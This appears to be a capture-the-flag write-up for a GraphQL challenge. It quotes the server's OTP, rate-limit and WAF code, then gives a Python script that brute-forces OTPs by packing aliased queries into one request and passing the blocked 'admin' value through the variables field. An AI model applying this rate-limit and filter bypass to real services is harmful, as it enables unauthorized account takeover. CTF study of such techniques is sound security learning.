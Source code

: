 # graphql-101

![Untitled](graphql-101%20f869ac78740e4f989e93e47da8080c8a/Untitled.png)

| framework | nodejs & graphql |
| --- | --- |
| vulnerability | ratelimit bypass via query variable & alias |

# Description

```jsx
var otps = Object.create(null);
otps["admin"] = Object.create(null);
function genOtp(ip, force = false) {
  if (force || !otps["admin"][ip]) {
    function intToString(v) {
      let s = v.toString();
      while (s.length !== STRENGTH_CHALLENGE.toString().length) s = '0' + s;
      return s;
    }
    const otp = [];
    for (let i = 0; i < NUM_CHALLENGE; ++i) 
      otp.push(
        intToString(crypto.randomInt(0, STRENGTH_CHALLENGE))
      );
    otps["admin"][ip] = otp;
  }
}
```

In order to get the flag, we must guess 40 otps.

```jsx
const rateLimiter = require('express-rate-limit')({
  windowMs: 30 * 60 * 1000,
  max: 5,
  standardHeaders: true,
  legacyHeaders: false,
  onLimitReached: async (req) => genOtp(req.ip, true)
})
```

The thing makes this challenge tricky was rate limit. Since we can request only 5 for the 30 minues, it was not possible just brute force the otp.(*if not corrected)

```jsx
// Construct a schema, using GraphQL schema language
const schema = buildSchema(`
  type Query {
    otp(u: String!, i: Int!, otp: String!): String!
  }
`);
```

we use above schema in order to query the otp check.

```jsx
app.use(require('body-parser').json({ limit: '128b' }));
```

Since there is body length limitation, we can’t query more than 1.

```jsx
function isDangerousValue(s) {
  return s.includes('admin') || s.includes('\\'); // Linux does not need to support "\"
}
```

And there was WAF which checks “admin” exists in req.url.

## payload

```jsx
import requests

# url = "http://localhost:7654"
url = "http://34.84.220.22:7654"

query_prefix = 'query($u:String!){'
query_suffix = '}'
for i in range(0, 40):    
    print("TRYING", i)
    for k in range(0, 4):
        query = ''
        for j in range(250 * k, 250 * k + 250):
            if j > 999:
                break
            otp = str(j).zfill(3)
            query += f'a{j}:otp(u:$u,i:{i},otp:"{otp}"),'
        query = query_prefix + query[:-1] + query_suffix
        r = requests.post(f'{url}/graphql', params={'query':query}, proxies={'http': 'http://localhost:8080'}, json={"variables": {"u": "admin"}}).text
        if 'OK !!!' in r:
            print("[+] Found OTP", i)
            break

r = requests.get(f'{url}/ADMIN', proxies={'http': 'http://localhost:8080'})
print(r.text)
```

It's also possible to pass query parameters via the `url query parmeter`. Additionally, there is a `variables field` that enables the use of variables; the server can interpret these variables declared in the body, which are utilized by the URL query parameters.